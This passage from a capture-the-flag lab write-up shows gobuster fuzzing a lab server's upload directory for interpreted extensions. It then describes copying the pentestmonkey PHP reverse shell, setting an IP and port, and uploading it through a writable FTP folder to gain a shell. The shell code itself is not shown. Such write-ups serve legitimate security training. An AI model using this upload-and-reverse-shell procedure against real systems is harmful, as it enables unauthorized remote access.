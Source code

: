 Bingo, and there is also the writable `ftp` folder, so let's upload a reverse shell.

---
## Getting a Shell

Before uploading a reverse shell i will fuzz for extensions to see what languages do the server interpret, we can do this also via `gobuster`.

```bash
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt -u http://10.10.17.121/files -t 64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.17.121/files
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/web-extensions.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/.php3                (Status: 403) [Size: 277]
/.php4                (Status: 403) [Size: 277]
/.php7                (Status: 403) [Size: 277]
/.pht                 (Status: 403) [Size: 277]
/.phps                (Status: 403) [Size: 277]
/.phtml               (Status: 403) [Size: 277]
/.php5                (Status: 403) [Size: 277]

===============================================================
Finished
===============================================================
```

There we go, we can upload a **PHP** reverse shell  and it will be interpreted.

If we are using **Kali** or **Parrot**  we can find the classic [Monkey Pentester PHP Reverse Shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) at `/usr/share/webshells/laudanum/php/php-reverse-shell.php`, so let's copy it to our current directory.

```bash
cp /usr/share/webshells/laudanum/php/php-reverse-shell.php .
```

Just modify your **IP Address** & **Port** in the code and it's ready to use, then we can just upload it to the writable folder via the FTP server.
